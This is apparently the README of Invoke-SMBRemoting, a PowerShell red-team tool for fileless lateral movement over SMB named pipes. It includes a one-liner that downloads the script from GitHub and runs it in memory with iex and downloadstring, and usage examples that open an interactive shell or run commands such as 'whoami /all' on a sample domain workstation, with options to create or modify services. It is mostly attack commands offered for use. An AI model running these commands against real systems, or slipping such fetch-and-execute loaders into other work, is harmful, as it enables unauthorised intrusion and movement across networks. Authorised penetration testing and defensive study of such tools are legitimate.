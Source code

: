 # Invoke-SMBRemoting
Interactive Shell and Command Execution over Named-Pipes (SMB) for Fileless lateral movement.

Invoke-SMBRemoting utilizes the SMB protocol to establish a connection with the target machine, and sends commands (and receives outputs) using Named Pipes.

Note: The user you run the script as needs to be administrator over the target system

First, load the script in memory:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-SMBRemoting/main/Invoke-SMBRemoting.ps1')
```

### Interactive Shell
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose
```

### Command Execution
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose
```

![image](https://github.com/Leo4j/Invoke-SMBRemoting/assets/61951374/645eaffe-e3d3-4428-b7a4-14bf95f5ddce)



